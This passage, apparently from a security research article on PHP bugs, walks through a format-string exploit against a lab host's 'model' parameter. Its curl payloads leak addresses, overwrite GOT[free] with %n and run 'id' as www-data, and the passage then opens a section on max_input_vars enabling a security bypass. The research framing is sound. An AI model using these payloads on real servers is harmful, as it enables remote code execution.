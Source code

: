 +--------------------[ One two three - pop that FSB!

=> [1] leak address through PHP errors

</PRE>
```console
$ curl "http://orange.local/index.php?model=%p-%p-%p"

  Fatal error: Uncaught Error: Class '0x23-0x7fffb61f3df0-0x7f1b12666000'
  not found in [...]
```
<PRE>

=> [2] move a heap pointer on stack to `GOT(free)-2`

</PRE>
```console
$ curl "http://orange.local/index.php?model=AAAAAAAAAAA \
        AAAAAAAA-%p-%p-%p-[...]-%p-%p-%p-%015373273d-%n"

  [...]
```
<PRE>

=> [3] partially overwrite `GOT[free]` to call `system()`

</PRE>
```console
$ curl "http://orange.local/index.php?model='|id&&exit; \
        AAAAAAAA-%p-%p-%p-[...]-%p-%p-%p-%0605504d-%n"

  [...]
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
<PRE>

Originally, this was just an idea collecting dust in my notes, waiting for
the perfect moment to turn it into a challenge - but who knew ten years
would fly by like that? Since the perfect timing never came, maybe this is
the right place to write it down - I mean, it's not every day you get to
see a classic format-string bug popping up in a scripting language. That's
PHP for you!

</PRE>
#### ------[  1.2 - When Security Features Make You Less Secure
<PRE>

Ever since @alech and @zeri shocked everyone, demonstrating how you could
take down almost every programming language through algorithmic complexity
[19], PHP had no choice but to introduce the `max_input_vars` directive as
a countermeasure. Although this measure didn't solve the problem from its
root, at least it prevented resource exhaustion from excessive input.
However, using limitations as a defense can sometimes be a double-edged
sword. Just take PCRE's `backtrack_limit` as an example - it was
originally supposed to block ReDoS, but attackers flipped it and used it
to invalidate regular expressions instead. And now, I'd like to introduce
another interesting one - where a security feature actually leads to a
*security bypass*!
